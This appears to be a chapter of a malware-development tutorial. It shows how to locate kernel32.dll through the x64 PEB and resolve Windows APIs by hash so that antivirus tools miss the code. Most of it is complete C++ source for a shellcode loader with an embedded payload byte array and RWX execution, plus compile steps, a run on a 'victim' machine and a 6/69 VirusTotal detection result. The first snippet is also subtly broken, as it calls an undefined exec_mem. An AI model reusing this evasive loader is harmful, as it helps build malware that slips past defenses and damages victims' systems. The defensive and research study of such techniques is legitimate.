



## 31. malware development tricks. Find kernel32.dll base: asm style. C++ example.

{width="80%"}    

This section is the result of self-researching interesting trick in real-life malwares.    

In the one of my [posts](https://cocomelonc.github.io/tutorial/2021/09/06/simple-malware-av-evasion-2.html) I wrote about using `GetModuleHandle`. It is returns a handle a specified DLL. For example:    

```cpp
#include <windows.h>

LPVOID (WINAPI * pVirtualAlloc)(
LPVOID lpAddress, SIZE_T dwSize, 
DWORD flAllocationType, DWORD flProtect);

//...

int main() {
   DWORD oldprotect = 0;

   HMODULE hk32 = GetModuleHandle("kernel32.dll");
   pVirtualAlloc = GetProcAddress(hk32, "VirtualAlloc");

   //...

   return 0;
}
```

Then, the actual way to execute shellcode is something like this (`meow.cpp`):    

```cpp
#include <windows.h>

LPVOID (WINAPI * pVirtualAlloc)(
LPVOID lpAddress, SIZE_T dwSize, 
DWORD flAllocationType, DWORD flProtect);

unsigned char my_payload[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";


int main() {
  HMODULE hk32 = GetModuleHandle("kernel32.dll");
  pVirtualAlloc = GetProcAddress(hk32, "VirtualAlloc");
  PVOID lb = pVirtualAlloc(0, sizeof(my_payload),
  MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
  memcpy(lb, my_payload, sizeof(my_payload));
  HANDLE th = CreateThread(0, 0, 
  (PTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
  WaitForSingleObject(th, -1);
}
```

So this code contains very basic logic for executing payload. In this case, for simplicity, it's use "meow-meow" messagebox payload.    

Let's compile it:

```bash
x86_64-w64-mingw32-g++ meow.cpp -o meow.exe \
-mconsole -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-Wint-to-pointer-cast -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

and run:    

{width="80%"}    

We used `GetModuleHandle` function to locate `kernel32.dll` in memory. It's possible to go around this by finding library location in the PEB.    

### assembly way :)

In the one of the [previous](https://cocomelonc.github.io/tutorial/2021/10/30/windows-shellcoding-2.html) sections I wrote about `TEB` and `PEB` structures and I found `kernel32` via asm. The following is obtained:    

1. offset to the `PEB` struct is `0x030`    
2. offset to `LDR` within `PEB` is `0x00c`   
3. offset to `InMemoryOrderModuleList` is `0x014`   
4. 1st loaded module is our `.exe`   
5. 2nd loaded module is `ntdll.dll`    
6. 3rd loaded module is `kernel32.dll`    
7. 4th loaded module is `kernelbase.dll`    

Today I will consider `x64` architecture. Offsets are different:    

1. PEB address is located at an address relative to `GS` register: `GS:[0x60]`    
2. offset to `LDR` within `PEB` is `0x18`    
3. `kernel32.dll` base address at `0x10`    

### practical example

So:    

```cpp
static HMODULE getKernel32(DWORD myHash) {
  HMODULE kernel32;
  INT_PTR peb = __readgsqword(0x60);
  auto modList = 0x18;
  auto modListFlink = 0x18;
  auto kernelBaseAddr = 0x10;

  auto mdllist = *(INT_PTR*)(peb + modList);
  auto mlink = *(INT_PTR*)(mdllist + modListFlink);
  auto krnbase = *(INT_PTR*)(mlink + kernelBaseAddr);
  auto mdl = (LDR_MODULE*)mlink;
  do {
    mdl = (LDR_MODULE*)mdl->e[0].Flink;
    if (mdl->base != nullptr) {
      if (calcMyHashBase(mdl) == myHash) { // kernel32.dll hash
        break;
      }
    }
  } while (mlink != (INT_PTR)mdl);

  kernel32 = (HMODULE)mdl->base;
  return kernel32;
}
```

Then for finding `GetProcAddress` and `GetModuleHandle` I used my `getAPIAddr` function from [my](https://cocomelonc.github.io/tutorial/2022/03/22/simple-av-evasion-5.html) post:    

```cpp
static LPVOID getAPIAddr(HMODULE h, DWORD myHash) {
  PIMAGE_DOS_HEADER img_dos_header = (PIMAGE_DOS_HEADER)h;
  PIMAGE_NT_HEADERS img_nt_header = (PIMAGE_NT_HEADERS)(
    (LPBYTE)h + img_dos_header->e_lfanew);
  PIMAGE_EXPORT_DIRECTORY img_edt = (PIMAGE_EXPORT_DIRECTORY)(
    (LPBYTE)h + 
    img_nt_header->
    OptionalHeader.
    DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].
    VirtualAddress);
  PDWORD fAddr = (PDWORD)(
    (LPBYTE)h + img_edt->AddressOfFunctions);
  PDWORD fNames = (PDWORD)(
    (LPBYTE)h + img_edt->AddressOfNames);
  PWORD  fOrd = (PWORD)(
    (LPBYTE)h + img_edt->AddressOfNameOrdinals);

  for (DWORD i = 0; i < img_edt->AddressOfFunctions; i++) {
    LPSTR pFuncName = (LPSTR)(
    (LPBYTE)h + fNames[i]);

    if (calcMyHash(pFuncName) == myHash) {
      printf("successfully found! %s - %d\n", 
      pFuncName, myHash);
      return (LPVOID)((LPBYTE)h + fAddr[fOrd[i]]);
    }
  }
  return nullptr;
}
```

And, respectively, the `main()` function logic is different:    

```cpp
int main() {
  HMODULE mod = getKernel32(56369259);
  fnGetModuleHandleA myGetModuleHandleA = 
  (fnGetModuleHandleA)getAPIAddr(mod, 4038080516);
  fnGetProcAddress myGetProcAddress = 
  (fnGetProcAddress)getAPIAddr(mod, 448915681);

  HMODULE hk32 = myGetModuleHandleA("kernel32.dll");
  fnVirtualAlloc myVirtualAlloc = 
  (fnVirtualAlloc)myGetProcAddress(
    hk32, "VirtualAlloc");
  fnCreateThread myCreateThread = 
  (fnCreateThread)myGetProcAddress(
    hk32, "CreateThread");
  fnWaitForSingleObject myWaitForSingleObject = 
  (fnWaitForSingleObject)myGetProcAddress(
    hk32, "WaitForSingleObject");

  PVOID lb = myVirtualAlloc(0, sizeof(my_payload),
  MEM_COMMIT | MEM_RESERVE, 
  PAGE_EXECUTE_READWRITE);
  memcpy(lb, my_payload, sizeof(my_payload));
  HANDLE th = myCreateThread(NULL, 0, 
  (PTHREAD_START_ROUTINE)lb, NULL, 0, NULL);
  myWaitForSingleObject(th, INFINITE);
}
```

As you can see, I used [Win32 API call by hash trick](https://cocomelonc.github.io/tutorial/2022/03/22/simple-av-evasion-5.html).    

Then full source code (`hack.cpp`) is:    

```cpp
/*
 * hack.cpp - find kernel32 from PEB, 
 assembly style. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/04/02/malware-injection-18.html
*/
#include <windows.h>
#include <stdio.h>

typedef struct _UNICODE_STRING {
  USHORT Length;
  USHORT MaximumLength;
  PWSTR Buffer;
} UNICODE_STRING;

struct LDR_MODULE {
  LIST_ENTRY e[3];
  HMODULE base;
  void* entry;
  UINT size;
  UNICODE_STRING dllPath;
  UNICODE_STRING dllname;
};

typedef HMODULE(WINAPI *fnGetModuleHandleA)(
  LPCSTR lpModuleName
);

typedef FARPROC(WINAPI *fnGetProcAddress)(
  HMODULE hModule,
  LPCSTR  lpProcName
);

typedef PVOID(WINAPI *fnVirtualAlloc)(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);

typedef PVOID(WINAPI *fnCreateThread)(
  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  SIZE_T                  dwStackSize,
  LPTHREAD_START_ROUTINE  lpStartAddress,
  LPVOID                  lpParameter,
  DWORD                   dwCreationFlags,
  LPDWORD                 lpThreadId
);

typedef PVOID(WINAPI *fnWaitForSingleObject)(
  HANDLE hHandle,
  DWORD  dwMilliseconds
);

DWORD calcMyHash(char* data) {
  DWORD hash = 0x35;
  for (int i = 0; i < strlen(data); i++) {
    hash += data[i] + (hash << 1);
  }
  return hash;
}

static DWORD calcMyHashBase(LDR_MODULE* mdll) {
  char name[64];
  size_t i = 0;

  while (mdll->dllname.Buffer[i] && i < sizeof(name) - 1) {
    name[i] = (char)mdll->dllname.Buffer[i];
    i++;
  }
  name[i] = 0;
  return calcMyHash((char *)CharLowerA(name));
}

static HMODULE getKernel32(DWORD myHash) {
  HMODULE kernel32;
  INT_PTR peb = __readgsqword(0x60);
  auto modList = 0x18;
  auto modListFlink = 0x18;
  auto kernelBaseAddr = 0x10;

  auto mdllist = *(INT_PTR*)(peb + modList);
  auto mlink = *(INT_PTR*)(mdllist + modListFlink);
  auto krnbase = *(INT_PTR*)(mlink + kernelBaseAddr);
  auto mdl = (LDR_MODULE*)mlink;
  do {
    mdl = (LDR_MODULE*)mdl->e[0].Flink;
    if (mdl->base != nullptr) {
      if (calcMyHashBase(mdl) == myHash) { // kernel32.dll hash
        break;
      }
    }
  } while (mlink != (INT_PTR)mdl);

  kernel32 = (HMODULE)mdl->base;
  return kernel32;
}

static LPVOID getAPIAddr(HMODULE h, DWORD myHash) {
  PIMAGE_DOS_HEADER img_dos_header = (PIMAGE_DOS_HEADER)h;
  PIMAGE_NT_HEADERS img_nt_header = 
  (PIMAGE_NT_HEADERS)(
    (LPBYTE)h + img_dos_header->e_lfanew);
  PIMAGE_EXPORT_DIRECTORY img_edt = (PIMAGE_EXPORT_DIRECTORY)(
    (LPBYTE)h + 
    img_nt_header->
    OptionalHeader.
    DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].
    VirtualAddress);
  PDWORD fAddr = (PDWORD)(
    (LPBYTE)h + img_edt->AddressOfFunctions);
  PDWORD fNames = (PDWORD)(
    (LPBYTE)h + img_edt->AddressOfNames);
  PWORD  fOrd = (PWORD)(
    (LPBYTE)h + img_edt->AddressOfNameOrdinals);

  for (DWORD i = 0; i < img_edt->AddressOfFunctions; i++) {
    LPSTR pFuncName = (LPSTR)((LPBYTE)h + fNames[i]);

    if (calcMyHash(pFuncName) == myHash) {
      printf("successfully found! %s - %d\n", 
      pFuncName, myHash);
      return (LPVOID)((LPBYTE)h + fAddr[fOrd[i]]);
    }
  }
  return nullptr;
}

unsigned char my_payload[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";

int main() {
  HMODULE mod = getKernel32(56369259);
  fnGetModuleHandleA myGetModuleHandleA = 
  (fnGetModuleHandleA)getAPIAddr(mod, 4038080516);
  fnGetProcAddress myGetProcAddress = 
  (fnGetProcAddress)getAPIAddr(mod, 448915681);

  HMODULE hk32 = myGetModuleHandleA("kernel32.dll");
  fnVirtualAlloc myVirtualAlloc = 
  (fnVirtualAlloc)myGetProcAddress(
    hk32, "VirtualAlloc");
  fnCreateThread myCreateThread = 
  (fnCreateThread)myGetProcAddress(
    hk32, "CreateThread");
  fnWaitForSingleObject myWaitForSingleObject = 
  (fnWaitForSingleObject)myGetProcAddress(
    hk32, "WaitForSingleObject");

  PVOID lb = myVirtualAlloc(0, sizeof(my_payload),
  MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
  memcpy(lb, my_payload, sizeof(my_payload));
  HANDLE th = myCreateThread(NULL, 0, 
  (PTHREAD_START_ROUTINE)lb, NULL, 0, NULL);
  myWaitForSingleObject(th, INFINITE);
}

```

As you can see, I used the same hash algorithm.    

### demo

Let's go to compile it:   

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -Wint-to-pointer-cast \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

and run (on victim's `windows 10 x64` machine):    

```cmd
.\hack.exe
```

{width="80%"}    

As you can see, everything is worked perfectly :)    

Let's go to upload to VirusTotal:    

{width="80%"}    

[https://www.virustotal.com/gui/file/0f5204336b3250fe2756b0a675013099be58f99a522e3e14161c1709275ec2d5/detection](https://www.virustotal.com/gui/file/0f5204336b3250fe2756b0a675013099be58f99a522e3e14161c1709275ec2d5/detection)    

**So 6 of 69 AV engines detect our file as malicious**    

This tricks can be used to make the static analysis of our malware slightly harder, mainly focusing on `PE` format and common indicators.    

I saw this trick in the [source code of Conti ransomware](https://cocomelonc.github.io/investigation/2022/03/27/malw-inv-conti-1.html)    

I hope this section spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[PEB structure](https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb)    
[TEB structure](https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-teb)    
[PEB_LDR_DATA structure](https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb_ldr_data)    
[GetModuleHandleA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea)    
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)    
[windows shellcoding - part 1](https://cocomelonc.github.io/tutorial/2021/10/27/windows-shellcoding-1.html)     
[windows shellcoding - find kernel32](https://cocomelonc.github.io/tutorial/2021/10/30/windows-shellcoding-2.html)    
[Conti ransomware source code](/investigation/2022/03/27/malw-inv-conti-1.html)    
[source code in Github](https://github.com/cocomelonc/2022-04-02-malware-injection-18)        
